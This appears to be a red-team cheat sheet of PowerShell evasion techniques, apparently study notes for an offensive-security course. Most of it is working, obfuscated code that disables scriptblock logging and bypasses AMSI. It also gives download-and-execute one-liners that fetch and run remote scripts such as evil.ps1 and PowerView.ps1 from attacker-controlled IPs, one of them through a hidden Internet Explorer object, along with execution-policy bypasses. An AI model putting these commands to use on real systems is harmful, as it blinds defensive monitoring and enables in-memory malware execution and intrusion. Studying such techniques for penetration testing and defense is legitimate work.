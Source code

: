 ```powershell
iex (iwr http://172.16.100.48/sbloggingbypass.txt -useb)
```
##### Bypass Scriptblock logging and AMSI
```powershell
[Reflection.Assembly]::"l`o`AdwIThPa`Rti`AlnamE"(('S'+'ystem'+'.C'+'ore'))."g`E`TTYPE"(('Sys'+'tem.Di'+'agno'+'stics.Event'+'i'+'ng.EventProv'+'i'+'der'))."gET`FI`eLd"(('m'+'_'+'enabled'),('NonP'+'ubl'+'ic'+',Instance'))."seTVa`l`Ue"([Ref]."a`sSem`BlY"."gE`T`TyPE"(('Sys'+'tem'+'.Mana'+'ge'+'ment.Aut'+'o'+'mation.Tracing.'+'PSEtwLo'+'g'+'Pro'+'vi'+'der'))."gEtFIe`Ld"(('e'+'tw'+'Provid'+'er'),('N'+'o'+'nPu'+'b'+'lic,Static'))."gE`Tva`lUe"($null),0)
```

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

##### Invisi-shell
```powershell
RunWithPathAsAdmin.bat
RunWithRegistryNonAdmin.bat
```

> [!NOTE] Note
> Make sure you type `exit` finish the cleanup
> Powershell is NOT `powershell.exe`. It is the `System.Management.Automation.dll`

##### Execute scripts in memory
```powershell
iex ((New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1'))
iex (iwr 'http://192.168.230.1/evil.ps1')
iex(iwr 'http://172.16.100.48/PowerView.ps1' -useb)

$ie=New-Object -ComObject
InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
```

```powershell
powershell -ExecutionPolicy bypass
powershell -c <cmd>
powershell -encodedcommand
$env:PSExecutionPolicyPreference="bypass"
```

##### Constrained Language Mode - AppLocker / WinDefender
View language mode
```powershell
$ExecutionContext.SessionState.LanguageMode
```

View AppLocker Policy
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```
![[Pasted image 20250406211031.png]]

`Allow everyone (S-1-1-0) to run scripts in C:\Program Files`
